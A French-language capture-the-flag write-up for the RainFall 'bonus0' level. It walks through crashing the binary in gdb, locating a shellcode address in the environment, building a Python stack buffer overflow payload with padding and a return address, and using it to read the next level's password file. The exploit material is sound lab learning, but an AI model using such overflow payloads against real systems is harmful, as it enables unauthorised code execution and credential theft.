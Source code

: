 Pour une fois le programme n'attends pas d'argument.

Il propose deux prompt et concatene les deux string avec un espace au milieu.

bonus0@RainFall:~$ ./bonus0
 -
a
 -
b
a b

On va essayer de voir si on peut faire segfault le programme et si oui a partir de combien :

La premiere entree va jusque 4096 sans segfault, par contre la deuxieme segfaut au 17e charactere.

(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
 -
AAAAAAAAAAAAAAAAAA
qqqqqqqqqqqqqqqqqqqqAAAAAAAAAAAAAAAAAA AAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00414141 in ?? ()
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
 -
AAAAAAAAAAAAAAAAA
qqqqqqqqqqqqqqqqqqqqAAAAAAAAAAAAAAAAA AAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb7e40041 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb)

avec gdb on s'apercoit que notre overflow du buffer ecrit sur esp, et qu'un charactere de moins deplace de 4 . 

(gdb) x/4s $esp-4
0xbffff70c:	 "A"
0xbffff70e:	 "\344\267\001"
0xbffff712:	 ""
0xbffff713:	 ""

On va appeler l'adresse de notre shellcode de l'environnement ici comme au level 2.

#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    char* ptr = getenv("SHELLCODE");
    printf("%p\n", ptr);
}

>> 0xbffff831 
l'adresse du shellcode

On va construire un payload:

 4095 * A + \n  + padding + adresse du shell code 
   premiere entree  

pour trouver le padding on utiliser 
https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

offset = 9

python -c "print 'A'*4095 + '\n' + 'A'*9 + '\x30\xf8\xff\xbf'"  > /tmp/test

On se segfault plus, la string n'est plus assez longue ! Il suffit de rajouter au moins 7 characteres derriere pour remplir le buffer de 20 ( 20 - 9 - 4(adresse) = 7)

python -c "print 'A'*4095 + '\n' + 'A'*9 + '\x30\xf8\xff\xbf' + 'A'*7 "  > /tmp/test

bonus0@RainFall:~$ cat /tmp/test - | ./bonus0

cat /home/user/bonus1/.pass
